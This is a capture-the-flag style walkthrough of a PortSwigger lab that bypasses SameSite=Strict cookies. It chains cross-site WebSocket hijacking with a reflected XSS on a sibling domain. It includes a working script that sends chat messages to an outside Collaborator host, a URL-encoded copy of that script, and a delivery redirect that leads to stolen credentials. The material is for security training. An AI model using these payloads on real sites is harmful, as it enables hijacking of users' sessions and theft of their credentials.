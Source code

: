 # SameSite Strict bypass via sibling domain

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)'s live chat feature is vulnerable to [cross-site WebSocket hijacking (CSWSH)](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking).

## Reproduction and proof of concept

### Study the live chat feature

1. In Burp's browser, go to the live chat feature and send a few messages.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.
3. Notice that this doesn't contain any unpredictable tokens, so it may be vulnerable to CSWSH if you can bypass any `SameSite` cookie restrictions.
4. In the browser, refresh the live chat page.
5. In Burp, go to the **Proxy -> WebSockets history** tab. When refreshing the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.

![CSRF](/_static/images/csrf8.png) 

### Confirm the CSWSH vulnerability
 
1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. 
2. In the browser, go to the **exploit server** and use the following template to create a script for a CSWSH proof of concept:

```text
<script>
    var ws = new WebSocket('wss://0add0076049f4a6fc1b319b700a00066.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://0yzg09yhcj2i5tf7f8z1wmsq1h78vyjn.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

3. **Store** and **view the exploit**.
4. In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand-new session, which isn't particularly useful.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by the script. This should be the most recent `GET /chat` request.
7. Notice that your session cookie was not sent with the request.
8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

![CSRF](/_static/images/csrf9.png) 

### Identify an additional vulnerability in the same "site"

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.
2. In the browser, visit this new URL to discover an additional login form.
3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.
4. Try injecting an XSS payload via the `username` parameter, for example:

```text
<script>alert(1)</script>
```
    
5. Observe that the `alert(1)` is called, confirming that this is a viable reflected XSS vector.
6. Send the `POST /login` request containing the XSS payload to Burp Repeater.
7. In Burp Repeater, right-click on the request and select **Change request** method to convert the method to `GET`. Confirm that it still receives the same response.
8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

### Bypass the SameSite restrictions

1. Recreate the CSWSH script tested on the exploit server earlier.
2. URL encode the entire script:

```text
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%64%30%30%37%36%30%34%39%66%34%61%36%66%63%31%62%33%31%39%62%37%30%30%61%30%30%30%36%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6f%79%71%34%30%78%79%35%63%37%32%36%35%68%66%76%66%77%7a%70%77%61%73%65%31%35%37%77%76%6f%6a%64%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request just tested, but use the URL-encoded CSWSH payload as the `username` parameter, for example:

```text
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

4. Store and view the exploit.
5. In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.
6. Go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Confirm that this request does contain your `session` cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

### Deliver the exploit chain

1. Go back to the exploit server and deliver the exploit to the victim.
2. In Burp, go back to the Collaborator tab and click Poll now.
3. Observe that you've received a number of new interactions.
4. Study the HTTP interactions and notice that these contain the victim's chat history.
5. Find a message containing the victim's username and password.

![CSRF](/_static/images/csrf10.png) 

6. Use the newly obtained credentials to log in to the victim's account and the lab is solved.

## Exploitability

An attacker needs to use an exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text. 
